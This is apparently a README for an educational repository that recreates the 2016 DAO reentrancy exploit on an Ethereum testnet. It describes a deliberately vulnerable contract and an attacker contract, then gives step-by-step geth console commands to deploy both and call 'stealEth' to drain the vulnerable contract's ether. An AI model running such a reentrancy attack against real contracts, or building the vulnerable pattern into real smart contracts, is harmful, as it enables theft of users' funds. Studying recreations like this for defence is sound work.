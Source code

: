 # mock-dao-hack
I wanted to recreate a recurisive send exploit similar to the one used by an attacker to drain "The DAO". I wrote an extremely simplified DAO contract (`dumbDAO.sol`) which is vulnerable to this hack. Included is an attacker contract (`attacker.sol`) which, if executed correctly will drain the dumbDAO contract of its ether.

#Running the exploit
Spin up a new geth node and console on the testnet or a privatenet (would not recommend trying this on the main Ethereum blockchain for obvious reasons). I've included a shell script called `generatejs.sh` which you can use to automatically compile the solidity contract code and create a deployment javascript file for you to load into your console.

    ./generatejs.sh dumbDAO.sol

If this runs correctly it should output a `loadScript` function call with the directory to the deployment js file to run as a parameter:

    loadScript('/Path/to/your/ws/mock-dao-hack/contracts/deploy_dumbDAO.js');
 
You should be able to copy and paste this straight into your geth console to deploy the contract. Once it is mined you'll see a log message confirming that the contract mined correctly. The contract javascript var is its name (`dumbDAO`). Deploy both contracts (doesn't really matter what order).

Once they are both deployed, lets set a few things up before executing the exploit...
Optional: run the event listener javascript file - sometimes its helpful to have feedback on the javascript console about which events are runnning:

        loadScript('/Path/to/your/ws/mock-dao-hack/events.js');

First, buy some DAO tokens as an innocent investor (adjust `eth.accounts[0]` as necessary).

    //buy 100 ether worth of DAO tokens
    dumbDAO.buyTokens({from:eth.accounts[0],value:web3.toWei(100),gas:3000000});
    
    //After that transaction has been mined, check to make sure the tokens were appropriately assigned
    web3.fromWei(dumbDAO.balances(eth.accounts[0]));
    //and check on the balance of the contract itself
    web3.fromWei(eth.getBalance(dumbDAO.address));

Next lets prepare the attacker contract:

    attacker.setDAOAddress(dumbDAO.address,{from:eth.accounts[0],gas:3000000});
    attacker.fundMe({from:eth.accounts[0],value:web3.toWei(5),gas:3000000});
    attacker.buyDAOTokens(web3.toWei(5),{from:eth.accounts[0],gas:4000000});
    
    //check Token balance for attacker
    web3.fromWei(dumbDAO.balances(attacker.address));
    
The attacker contract should now be a token holder with 5 ether worth of DAO tokens. To execute the exploit...

    attacker.stealEth(web3.toWei(5),{from:eth.coinbase,gas:4000000})

Check the balances of both contracts as well as the balances of the innocent investor...the DAO now has less ether than it thinks it has.


#Further reading
DAO Hack FAQ:
https://www.reddit.com/r/ethereum/comments/4os7l5/the_big_thedao_heist_faq/

In depth Analysis:
http://vessenes.com/deconstructing-thedao-attack-a-brief-code-tour/
http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/
https://pdaian.com/blog/chasing-the-dao-attackers-wake/
